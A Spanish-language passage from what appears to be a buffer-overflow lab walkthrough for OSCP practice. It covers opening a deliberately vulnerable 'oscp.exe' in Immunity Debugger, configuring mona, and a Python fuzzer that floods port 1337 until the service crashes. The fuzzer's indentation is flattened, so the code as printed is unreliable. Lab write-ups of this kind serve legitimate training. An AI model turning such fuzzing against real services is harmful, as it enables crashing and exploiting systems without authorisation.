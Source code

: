![1]

Nos pedirá la contraseña de acceso al sistema, esta es **password**. Por último, nos saldrá una alerta de verificación de identidad, la cual podemos omitir y aceptar conectarse de todos modos haciendo clic en *Sí*.

![2]

De esta manera, tendremos acceso a la máquina remota.

![3]

Dentro del Escritorio, veremos el Immunity Debugger, lo ejecutamos como Administrador y veremos la interfaz del programa. Seleccionamos Archivo -> Abrir y buscamos dentro del *Escritorio* la carpeta "vulnerable-apps", dentro de esta la carpeta "oscp" y dentro el binario que nos compete: **oscp.exe**.

![4]

El programa comenzará a inicializarse, pero debemos reanudar su ejecución dando clic en el botón rojo de *play* una vez:

![5]

En el apartado de comandos de Immunity Debugger (parte inferior) deberemos primero setear el direcctorio de trabajo para el plugin **mona** que vamos a estar empleando:

    !mona config -set workingfolder c:\mona\%p

Debemos crear los siguientes scripts en nuestro sistema de atacante (en mi caso hago uso de Visual Studio Code y su shell integrada, la cual despliega mi subsistema Kali):

fuzzer.py
    
    #!/usr/bin/env python3

    import socket, time, sys

    ip = "IP"

    port = 1337
    timeout = 5
    prefix = "OVERFLOW2 "

    string = prefix + "A" * 100

    while True:
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.settimeout(timeout)
        s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
        s.send(bytes(string, "latin-1"))
        s.recv(1024)
    except:
        print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
        sys.exit(0)
    string += 100 * "A"
    time.sleep(1)
